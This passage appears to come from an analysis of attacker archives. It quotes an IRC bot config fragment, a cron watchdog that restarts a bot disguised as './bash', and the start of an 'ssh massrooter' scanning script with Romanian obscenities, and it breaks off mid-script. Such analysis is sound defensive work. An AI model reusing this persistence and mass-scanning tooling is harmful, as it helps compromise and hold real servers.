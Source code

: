    SET MBL         7
    SET MPL         1

Also here, joining the channel does nothing.

The archive also contains a shell script, used to check if the bot is still running and to restart it:

    #! /bin/sh
    RUN=./bash
    OPT=
    OUTPUT=./mech.cron
    if [ -r mech.pid ]; then
      PID=`cat mech.pid`
      if [ -r /proc/$PID ]; then
        exit 0
      fi
      if ( kill -0 $PID 1> /dev/null 2> /dev/null ); then
        exit 0
      fi
    fi
    echo >> $OUTPUT
    echo "Mech restarted:" >> $OUTPUT
    ( date 2>&1 ) >> $OUTPUT
    echo >> $OUTPUT
    ( $RUN $OPT 2>&1 ) >> $OUTPUT95

Shell scripts like these are often put in crontabs.

## File http___arhiva_do_am_scan.tar

This archive contains the often repacked `pscan` and `ssh-scan` tools. A shell script called `start` contains:

    #/bin/bash
    # start.sh script
    # part of ssh massrooter by pulea
    # /j #r.o.o.t pt intrebari :)

    if [ $# != 1 ]; then
            echo "[+] pulea zice :"
    sleep 3
            echo "[+] sa-mi bag pula in creierii tai !"
            echo "[+] ex. : $0 <b class>"
            exit;
    fi

    clear
    cat a1
    if [ -f a4 ]; then
    echo "[+] Checking files.."
    sleep 3
    echo " OK"
    perl sshc.c
